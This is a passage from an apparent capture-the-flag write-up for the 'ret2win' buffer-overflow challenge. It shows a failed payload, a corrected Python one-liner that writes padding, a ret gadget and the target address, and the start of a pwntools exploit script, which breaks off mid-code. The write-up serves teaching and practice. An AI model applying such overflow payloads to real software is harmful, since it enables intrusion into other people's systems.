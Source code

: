 **We need:&#x20;**<mark style="color:green;">**padding + ret\_gadget +**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`ret2win()`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**address**</mark>

**NOTE:** <mark style="color:yellow;">To prevent frustration, the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">**below does not work**</mark><mark style="color:yellow;">, view the fix. I always feel it is important to note mistakes throughout my journey</mark>.

**Using python3 once more (and armed with better knowledge), we can jump to `ret2win()` once more and see that in the result of our execution and obtain our flag:**

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40+b'\x3e\x05\x04\x00\x00\x00\x00\x00 + \x3e\x05\x00\x04\x00\x00\x00\x00')" > payload
```

For some reason, I cannot get my manual exploit to work. I believe it has something to do with python's `sys.stdout.buffer.write()` not liking multiple pieces of shellcode??

<mark style="color:yellow;">Yes, I needed to append</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`b'`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">before every new iteration of shellcode</mark>.

Here is the fix:

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x3e\x05\x40\x00\x00\x00\x00\x00' + b'\x56\x07\x40\x00\x00\x00\x00\x00')" > payload
```

Send payload to target:

```
./ret2win < payload
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

### Automated Exploitation with pwntools

exploit.py:

```python
from pwn import *

# SETUP

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
         return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
```